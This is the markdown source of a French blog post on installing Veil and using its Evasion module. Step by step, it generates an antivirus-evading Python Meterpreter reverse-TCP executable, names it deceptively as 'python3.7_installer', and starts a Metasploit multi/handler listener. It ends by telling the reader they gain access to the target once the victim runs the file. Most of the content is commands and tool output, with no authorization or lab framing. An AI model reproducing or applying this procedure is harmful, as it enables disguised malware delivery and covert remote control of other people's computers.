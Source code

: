 ```yaml
---
author: Funeoz
permalink: /linux/veil-evasion-av.html
title: Installation et utilisation de Veil (Evasion d'antivirus)
layout: post
read_time: true
---
```


![Veil](/techlovers/assets/image1veil.jpg) 

Veil (et non pas Veil-evasion qui a été discontinué) permet de rendre indétectable à environ 60% du temps un payload qui sera executé sur la cible. Son installation est très simple.

## Installation

Tout d'abord, git clone le repository :

{% highlight bash %}
$ git clone https://github.com/Veil-Framework/Veil.git
#Puis changer de dossier
$ cd Veil 
#Exécuter le script d'installation
$ ./config/setup.sh --force --silent
{% endhighlight %}

Cela va donc installer toutes les dépendances nécessaires. 

Il va vous être demandé aussi de renseigner le chemin pour Metasploit 
(ex:/opt/metasploit-framework)

## Utilisation

Deux modules sont utilisables dans le framework Veil : Evasion et Ordnance.

Evasion permet donc d'éviter la détection des payloads et Ordnance de générer des shellcode rapidement pour les utiliser avec des exploits ou des payloads. Mais cet article ne porte que sur Evasion.

Si on va dans la partie Evasion en tapant <<use 1>> puis <<list>>, on peut voir que ces payloads peuvent être dans différents languages.
Il faut savoir qu'il existe deux "types" de language : 
- les languages à haut niveau
- les languages à bas niveau

Par exemple, le Python est un language à haut niveau. Ce qui veut dire qu'il est proche des languages réels, donc plus simple à écrire. Donc les payloads auront plus de chance à être détectés.

Alors que le go est un language à bas niveau qui se rapproche du language machine.
Donc plus compliqué à être détecté.

On va donc pour l'exemple prendre le payload 28. Pour cela <<use 28>>

On tombe donc sur pleins d'options :

{% highlight bash %}
Veil/Evasion>: use 28
===============================================================================
                                   Veil-Evasion
===============================================================================
      [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
===============================================================================

 Payload Information:

        Name:           Pure Python Reverse TCP Stager
        Language:       python
        Rating:         Excellent
        Description:    pure windows/meterpreter/reverse_tcp stager, no
                        shellcode

Payload: python/meterpreter/rev_tcp selected

 Required Options:

Name                    Value           Description
----                    -----           -----------
CLICKTRACK              X               Optional: Minimum number of clicks to execute payload
COMPILE_TO_EXE          Y               Compile to an executable
CURSORMOVEMENT          FALSE           Check if cursor is in same position after 30 seconds
DETECTDEBUG             FALSE           Check if debugger is present
DOMAIN                  X               Optional: Required internal domain
EXPIRE_PAYLOAD          X               Optional: Payloads expire after "Y" days
HOSTNAME                X               Optional: Required system hostname
INJECT_METHOD           Virtual         Virtual, Void, or Heap
LHOST                                   The listen target address
LPORT                   4444            The listen port
MINRAM                  FALSE           Check for at least 3 gigs of RAM
PROCESSORS              X               Optional: Minimum number of processors
SANDBOXPROCESS          FALSE           Check for common sandbox processes
SLEEP                   X               Optional: Sleep "Y" seconds, check if accelerated
USERNAME                X               Optional: The required user account
USERPROMPT              FALSE           Make user click prompt prior to execution
USE_PYHERION            N               Use the pyherion encrypter
UTCCHECK                FALSE           Optional: Validates system does not use UTC timezone
VIRTUALDLLS             FALSE           Check for dlls loaded in memory
VIRTUALFILES            FALSE           Optional: Check if VM supporting files exist

 Available Commands:

        back            Go back to Veil-Evasion
        exit            Completely exit Veil
        generate        Generate the payload
        options         Show the shellcode's options
        set             Set shellcode option

[python/meterpreter/rev_tcp>>]:
{% endhighlight %}

Ce qui va nous être utilise est de juste renseigner l'adresse de notre ordinateur pour le LHOST grâce à ifconfig, puis génerer le payload : 

{% highlight bash %}
[python/meterpreter/rev_tcp>>]: set LHOST (votreip)
#generation du payload
[python/meterpreter/rev_tcp>>]: generate
{% endhighlight %}

Le module va ensuite demander le nom de fichier que vous voulez donner (ex: python3.7_installer) :

{% highlight bash %}
[>] Please enter the base name for output files (default is payload): python3.7_installer
#Attention:remplacez les espaces par des tirets bas.
{% endhighlight %}

Puis celui-ci va vous demander quel module vous voulez utiliser pour générer l'exécutable (pour moi, ce sera PyInstaller) :

{% highlight bash %}
[?] How would you like to create your payload executable?

     1 - PyInstaller (default)
     2 - Py2Exe

 [>] Please enter the number of your choice: 1
{% endhighlight %}

Le fichier va donc être généré et est disponible à :

{% highlight bash %}
$ cd /var/lib/veil/output/compiled
$ ls
$ python3.7_installer.exe
{% endhighlight %}

Il faudra ensuite lancer msfconsole, sélectionner l'exploit exploit/multi/handler et le payload python/meterpreter/reverse_tcp

{% highlight bash %}
$ msfconsole
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload python/meterpreter/reverse_tcp
payload => python/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST (votreip)
LHOST => (votreip)
msf5 exploit(multi/handler) > run
{% endhighlight %}

La session va donc être lancé puis il faudra que la personne exécute le fichier et voilà, vous aurez accès à votre cible.













